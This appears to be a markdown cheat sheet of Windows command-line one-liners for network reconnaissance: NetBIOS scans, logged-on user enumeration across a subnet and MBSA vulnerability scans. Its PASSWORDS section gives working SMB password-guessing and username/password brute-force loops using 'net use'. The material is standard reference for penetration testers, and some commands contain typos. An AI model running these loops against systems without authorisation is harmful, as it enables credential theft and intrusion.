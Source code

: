 # NETBIOS

## Basic nbtstat scan:
```
C:\> nbtstat -A <IP ADDRESS>
```

## Cached NetBIOS info on localhost:
```
C:\> nbtstat -c
```
# Script loop scan:
```
C:\> for /L %I in (1,1,254) do nbstat -An 192.168.l.%I
```

## USER ACTIVITY
[Ref](https://technet.microsoft.com/enus/sysinternals/psloggedon.aspx)

## Get users logged on:
```
C:\> psloggedon \\computername
```
## Script loop scan:
```
C:\> for /L %i in (1,1,254) do psloggedon\\192.168.l.%i >> C:\users_output.txt
```

# PASSWORDS

## Password guessing or checks:
```
# for /f %i in (<PASSWORD FILE NAME>.txt) do @echo %i & net use \\<TARGET IP ADDRESS> %i /u:<USERNAME> 2>nul && pause
# for /f %i in (<USER NAME FILE>.txt) do @(for /f %j
in (<PASSWORD FILE NAME>.txt) do @echo %i:%j & @net
use \\<TARGET IP ADDRESS> %j /u:%i 2>nul &&
echo %i:%j >> success.txt && net use \\<IP ADDRESS>/del)
MICROSOFT BASELINE SECURITY ANALYZER (MBSA)
```

## Basic scan of a target IP address:
```
C:\> mbsacli.exe /target <TARGET IP ADDRESS> /n os+iis+sql+password
```
## Basic scan of a target IP range:
```
C:\> mbsacli.exe /r <IP ADDRESS RANGE> /n os+iis+sql+password
```
